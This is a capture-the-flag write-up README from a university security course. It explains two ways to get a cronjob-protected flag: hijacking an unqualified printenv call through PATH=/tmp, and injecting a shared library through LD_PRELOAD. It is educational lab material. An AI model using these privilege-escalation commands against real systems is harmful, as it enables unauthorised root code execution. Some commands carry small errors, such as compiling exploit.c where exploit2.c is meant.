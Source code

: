 # FSI-CTFS: British Punctuality
 
#### Exploits created by José Miguel Isidro aka [zmiguel2011](https://github.com/zmiguel2011)
## DISCAIMER:
> This exploit in British Punctuality's CTF in 22/23 is due to an honest mistake by the teacher who created the CTF.
> Although this wasn't the intended way to solve the CTF, this is how I managed to solve it. Nevertheless, the intended way to solving is also included in this repository and will explained [here](#intended-way-to-solve-the-ctf-exploitc)).

### Unintended Way to Solve the CTF (exploit.c)
> In [my_script.sh](../British%20Punctuality/my_script.sh) , printenv is vulnerable because of the missing absolute path. It should've been /bin/printenv. This enabled us to write arbitrary code in a 'fake' printenv program created by the user.

> You would have to compile this [program](../British%20Punctuality/exploit.c) with ggc and output the file to "printenv" in the /tmp folder.
```bash
cd /tmp
gcc -o printenv exploit.c
```

> Create a new /tmp/env file with:

```bash
PATH=/tmp
```

> Let the cronjob run and execute your printenv program and retrieve the flag from the last_log text file with:
```bash
cat /tmp/last_log
```


### Intended Way to Solve the CTF (exploit2.c)

> Compile this [program](../British%20Punctuality/exploit2.c) with ggc and create shared object in the /tmp folder.
```bash
gcc -c -Wall -Werror -fpic exploit.c
gcc -shared -o myexploit.so exploit.o
```

> Create a new /tmp/env file with:

```bash
PATH=/tmp
LD_PRELOAD=/tmp/myexploit.so
```

> For reference, If you haven't heard about the [LD_PRELOAD](https://www.google.com/search?q=LD_PRELOAD+trick) environment variable, you should read about it for better understading of the step above.

> Let the cronjob run and execute the reader program which will then print the flag because the 'puts' function was overwritten. Retrieve the flag from the last_log text file with:
```bash
cat /tmp/last_log
```